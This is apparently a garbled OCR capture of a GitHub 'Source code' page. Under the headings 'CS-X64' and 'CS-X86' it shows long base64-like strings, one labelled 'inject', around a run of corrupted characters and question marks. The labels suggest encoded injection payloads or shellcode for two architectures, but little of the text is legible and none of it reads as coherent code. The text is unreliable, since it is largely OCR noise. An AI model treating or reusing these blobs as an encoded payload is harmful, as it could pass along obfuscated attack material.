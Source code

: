 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



wefik25|??2,e??;6,l;????10,H?;14,F?;18,z??;22,4???;26,??3;30???,C;??34,l;?3???8,Z???;42,W????;46,I??;50?,b;???54,??f;58????,?k;????62,H;??66,E?;70,??G;74,????Y;78????,8;8?2,h;8?6,h;9?0???,M????;9?4,????f;????9????8,y?;|y????.y????etuml???bbsHx???f???aF?,h????yz????z.c????4t???zj3ds????%Cy@??j??ly@???aZ%d??bWHb????n???Ijy???t???bJy???%f@z?ykj????d@H????bh????yEtj?yGsbj?Ytg???b??8???j.????fhti????bhfb,??M??b@b???fy?n??jyy???tyukyh

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
